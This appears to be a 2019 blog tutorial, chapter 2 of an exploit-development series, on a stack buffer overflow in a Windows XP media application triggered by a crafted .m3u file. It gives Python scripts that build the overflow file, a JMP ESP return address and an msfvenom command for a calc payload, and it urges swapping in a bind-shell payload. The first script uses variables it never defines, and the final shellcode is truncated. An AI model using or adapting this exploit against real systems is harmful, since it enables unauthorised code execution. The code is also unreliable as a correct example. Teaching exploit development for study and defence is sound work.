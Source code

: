 ```yaml
---
layout: post
title:  "Reverse Engineering and Exploit Development Made Easy - Chapter 2"
date:   2019-07-08
categories: Exploit Dev
tags: [RE, Reverse Enginering, Exploit Development]
author: 4p0cryph0n
---
```


### Reverse Engineering and Exploit Development Made Easy - Chapter 2 ###

**:****~****# ./chapt2**

Welcome back! In the previous chapter, we focused on the basics of reverse engineering, and gained control of the EIP register using our first binary. Now, let's dive into the fun stuff: shellcoding!

So, two things need to be done now:

1) Place shellcode in ESP (Basically an encoded payload. For example, bind shell or cmd exec.)

2) Replace EIP with a JMP instruction that points to our shellcode in ESP. A JMP instruction will jump to the shellcode and execute it.

First, in order to make sure that all of our shellcode is going into ESP, let's send a recognisable pattern. This way, we will be able to notice if some of our shellcode is getting cut, which can render our exploit unusable. I'll be using the pattern from the Corelan website itself:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's save the file and put it through the debugger.

So the highlighted value is what is in ESP. As you can see, our pattern is missing 4 bytes (1ABC), which means that the shellcode that's going in ESP is incomplete. This has a simple solution, all we have to do is add 4 bytes before our shellcode. I'll name this variable preesp.

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
preesp = "XXXX"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's put this through the debugger :)

Now, let's look for a JMP ESP instruction. This instruction should belong to one of the application's DLL. Immunity will help us with this hunt :)

Run the program but do nothing, and right click anywhere in the CPU window and click on Search for > All commands in all modules. Like so:

Alright! Our test shellcode is going in just fine. Now, let's look for a jump ESP instruction.

Right-click anywhere in the CPU window, and search for all commands in all modules. Like so:

Enter jmp esp in the popup box and click find.

This instruction looks good. Copy the address, and then click on View in the toolbar, and click CPU to go back to the CPU window.

Now, replace the 4 Bs in your code with this address. But remember one thing, this highlighted address is in the big Endian format. Computers can't read the address in in our code if we send it in big Endian. We need to change it into little Endian, which is the reverse of this (i.e. 3AF2D201). This is how we will include that address in our code:

Now, let's generate some shellcode! I'm going to generate shellcode that will open the Calculator application (calc.exe) in Windows XP, just as a test. If this works, we can put a bind shell one in. For this, we will be using Metasploit.

`msfvenom -a x86 --platform windows -p windows/exec CMD="calc" --encoder x86/alpha_upper -f py`

The '--encoder' flag selects an encoder, in our case it's x86/alpha_upper. The '-f' flag tells it to print the payload for a python file. Now, let's add some NOPS (No operations, 90) and paste this in our code and watch the magic!

Your final code should look something like this:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "\x3A\xF2\xD2\x01"
preesp = "XXXX"
nops = "\x90"*25
buf = ""
buf += "\xd9\xe9\xd9\x74\x24\xf4\xbb\xcb\x65\x09\xdf\ #..... and so on
buf3 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + nops + buf + buf3
print(len(string))
f.write(string)
f.close()
```

Congratulations on your first successful exploit! Now, I want you to try and replace the calculator shellcode with a windows bind shell shellcode and get a shell. In the next chapter, we will cover more ways in which we can execute our shellcode. We will see the other instructions that can replace our JMP ESP instruction.
